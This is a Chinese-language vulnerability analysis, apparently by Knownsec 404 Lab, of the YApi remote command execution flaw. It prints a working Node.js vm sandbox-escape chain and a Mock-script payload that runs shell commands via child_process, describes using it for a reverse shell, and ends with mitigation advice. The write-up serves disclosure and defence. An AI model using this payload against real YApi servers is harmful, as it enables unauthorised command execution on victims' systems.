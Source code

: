 > 原文链接: https://www.anquanke.com//post/id/247598 


# yapi 远程命令执行漏洞分析


                                阅读量   
                                **66192**
                            
                        |
                        
                                                                                    



[![](https://p3.ssl.qhimg.com/t013c22bfb27e978605.jpg)](https://p3.ssl.qhimg.com/t013c22bfb27e978605.jpg)



作者：0x4qE@知道创宇404实验室

## 0x01 简述

[Yapi](https://github.com/YMFE/yapi) 是高效、易用、功能强大的 api 管理平台，旨在为开发、产品、测试人员提供更优雅的接口管理服务。可以帮助开发者轻松创建、发布、维护 API，YApi 还为用户提供了优秀的交互体验，开发人员只需利用平台提供的接口数据写入工具以及简单的点击操作就可以实现接口的管理。

2021年7月8日，有用户在 GitHub 上发布了遭受攻击的相关信息。攻击者通过注册用户，并使用 Mock 功能实现远程命令执行。命令执行的原理是 Node.js 通过 `require('vm')` 来构建沙箱环境，而攻击者可以通过原型链改变沙箱环境运行的上下文，从而达到沙箱逃逸的效果。通过 `vm.runInNewContext("this.constructor.constructor('return process')()")` 即可获得一个 process 对象。

### <a class="reference-link" name="%E5%BD%B1%E5%93%8D%E7%89%88%E6%9C%AC"></a>影响版本

Yapi &lt;= 1.9.2



## 0x02 复现

复现环境为 Yapi 1.9.2，[Docker 环境](https://hub.docker.com/r/0x4qe/yapi_1.9.2_rce)已上传到 Dokcer Hub。

攻击者通过注册功能注册一个新用户，在新建项目页面创建一个新项目。

[![](https://p2.ssl.qhimg.com/t01547b4d3e398c7ccc.png)](https://p2.ssl.qhimg.com/t01547b4d3e398c7ccc.png)

在设置 -&gt; 全局 mock 脚本中添加恶意代码。设置命令为反弹 shell 到远程服务器。

[![](https://p0.ssl.qhimg.com/t01e7d11c57c2194e33.png)](https://p0.ssl.qhimg.com/t01e7d11c57c2194e33.png)

POC如下：

[![](https://p3.ssl.qhimg.com/t012f60ba32dffd44d8.png)](https://p3.ssl.qhimg.com/t012f60ba32dffd44d8.png)

随后添加接口，访问提供的 mock 地址。

[![](https://p5.ssl.qhimg.com/t01db32e65ac83eb381.png)](https://p5.ssl.qhimg.com/t01db32e65ac83eb381.png)

随后即可在远程服务器上收到来自命令执行反弹的 shell。

[![](https://p1.ssl.qhimg.com/t015a2def4b799614d6.png)](https://p1.ssl.qhimg.com/t015a2def4b799614d6.png)



## 0x03 漏洞分析

在 Github 上发布的新版本 1.9.3 已经修复了这个漏洞。[https://github.com/YMFE/yapi/commit/37f7e55a07ca1c236cff6b0f0b00e6ec5063c58e](https://github.com/YMFE/yapi/commit/37f7e55a07ca1c236cff6b0f0b00e6ec5063c58e)[/https://github.com/YMFE/yapi/commit/37f7e55a07ca1c236cff6b0f0b00e6ec5063c58e](//github.com/YMFE/yapi/commit/37f7e55a07ca1c236cff6b0f0b00e6ec5063c58e)

核心问题在`server/utils/commons.js line 635`

[![](https://p3.ssl.qhimg.com/t0163cfdc65473eda0b.png)](https://p3.ssl.qhimg.com/t0163cfdc65473eda0b.png)

修复后的代码引入了新的动态脚本执行模块 [safeify](https://github.com/Houfeng/safeify)，替换了原有的 [vm](https://nodejs.org/api/vm.html) 模块。根据 Node.js 官方的描述

> The vm module is not a security mechanism. Do not use it to run untrusted code.

`vm` 模块并不是一个完全安全的动态脚本执行模块。先来看看 vm 有哪些执行命令的函数。

[![](https://p4.ssl.qhimg.com/t01d59cdde03fd8e23f.png)](https://p4.ssl.qhimg.com/t01d59cdde03fd8e23f.png)

根据[官方文档](https://nodejs.org/api/vm.html#vm_vm_runincontext_code_contextifiedobject_options)，这三个函数都有一个参数 `contextObject` 用来表示上下文。但是这个上下文并不是完全隔离地运行的，可以通过原型链的形式实现沙箱逃逸。

```
&gt; vm.runInNewContext("this")
`{``}` // this 是一个空对象

&gt; vm.runInNewContext("this.constructor")
[Function: Object] // 通过 this.constructor 可以获得一个对象的构造方法

&gt; vm.runInNewContext("this.constructor('a')")
[String: 'a'] // 获得了一个字符串对象

&gt; vm.runInNewContext("this.constructor.constructor('return process')")
[Function: anonymous] // 获得了一个匿名函数 function() `{` return process; `}`

&gt; vm.runInNewContext("this.constructor.constructor('return process')()")
process `{`
  title: 'node',
  version: 'v10.19.0',
  ...
`}` // 获得了一个 process() 函数的执行结果
  // 接下来就可以通过 process.mainModule.require('chile_process').execSync('command') 来执行任意代码
```

有一种防护方案是将上下文对象的原型链赋值成 null，就可以防止利用 this.constructor 进行沙盒逃逸。`const contextObject = Object.create(null)`，但是这种方法有个缺点，这样禁用了内置的函数，业务需求完全得不到实现。有文章[Node.js沙盒逃逸分析](https://jelly.jd.com/article/5f7296d0c526ae0148c2a2bb)提到可以用 `vm.runInNewContext('"a".constructor.constructor("return process")().exit()', ctx);`绕过原型链为 null 的限制。测试后发现无效，如果不考虑业务需求的话，`Object.create(null)`应该是一种终极的解决方案了。

接下来我们可以下断点跟进看看漏洞是如何被利用的。在`server/utils/commons.js line 635`处下断点，构造 mock 脚本，然后访问 mock 接口，程序运行停止在断点处。使用 F11 `Step into` 进入`server/utils/conmmons.js`处，单步调试至`line 289`，再用 F11 进入沙盒环境。

```
const sandbox = this // 将沙盒赋给了变量 sandbox
const process = this.constructor.constructor('return process')() // 利用原型链进行沙盒逃逸获得 process 对象
mockJson = process.mainModule.require('child_process').execSync('whoami &amp;&amp; ps -ef').toString() // 给 sandbox.mockJson 赋值了命令执行的结果
```

函数执行结束后会调用 `context.mockJson = sandbox.mockJson` 并将 mockJson 作为 req.body 返回用户，于是就可以在页面中看到命令执行的反馈。



## 0x04 防护方案

1、更新 Yapi 至官方发布的 1.9.3，新版本用了更为安全的 safeify 模块，可以有效地防止这个漏洞。

2、如果没有使用注册的需求，建议关闭 Yapi 的注册功能。通过修改 Yapi 项目目录下的 config.json 文件，将 closeRegister 字段修改为 true 并重启服务即可。

3、如果没有 Mock 功能的需求，建议关闭 Yapi 的 Mock 功能。



## 0x05 相关链接

1、[高级Mock可以获取到系统操作权限](https://github.com/YMFE/yapi/issues/2099)<br>
2、[Node.js命令执行和沙箱安全](https://mp.weixin.qq.com/s/obDPE6ZWauDG7PeIES6sHA)<br>
3、[Node.js沙盒逃逸分析](https://jelly.jd.com/article/5f7296d0c526ae0148c2a2bb)
